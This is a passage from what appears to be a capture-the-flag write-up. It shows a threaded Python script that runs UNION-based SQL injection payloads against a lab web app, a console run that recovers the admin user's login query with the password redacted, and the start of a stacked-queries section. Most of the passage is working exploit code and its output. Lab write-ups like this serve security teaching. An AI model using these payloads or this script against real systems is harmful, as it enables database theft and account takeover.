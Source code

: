 ```py
    return


threads = []
for i in range(15):
    sqli_payload = f'" UNION SELECT 1, SUBSTR(({payload}), {i * 16 + 1}, 16);#'
    thread = threading.Thread(target=create_and_login, args=(i, sqli_payload))
    threads.append(thread)
    thread.start()

for thread in threads:
    thread.join()

while True:
    threads = [threading.Thread(target=fetch_query_result, args=(i,)) for i in range(15)]
    for thread in threads:
        thread.start()
    for thread in threads:
        thread.join()

    # check that we are not missing any part of the result
    if all([len(results[i]) <= len(results[i - 1]) for i in range(1, 15)]):
        result = "".join([results[i] for i in range(0, 15)])
        if len(result) > 16:
            print(result)
            sys.exit(0)
            
    time.sleep(1)
```
{: file="sqli_automate3.py" }

Running the script, we successfully discover the password for the `admin` user.

> We use `WHERE INFO_BINARY NOT LIKE "%INFO_BINARY%"` to filter out our own query that extracts the data.
{: .prompt-tip }

```console
$ ./sqli_automate3.py 'http://10.10.104.157/' 'SELECT INFO_BINARY FROM information_schema.PROCESSLIST WHERE INFO_BINARY NOT LIKE "%INFO_BINARY%" LIMIT 1'
SELECT * from users where (username= 'admin' and password=md5('fE[REDACTED]0Q') ) UNION ALL SELECT null,null,null,SLEEP(5) LIMIT 2
```
{: .wrap }

> While the script works most of the time, it occasionally captures queries other than the login query. If you receive junk or different output, try running it again.  
{: .prompt-warning }

### Stacked Queries

While the above method works well, there is another approach—albeit more intrusive—that we can use to extract current queries without the **16** character limit.

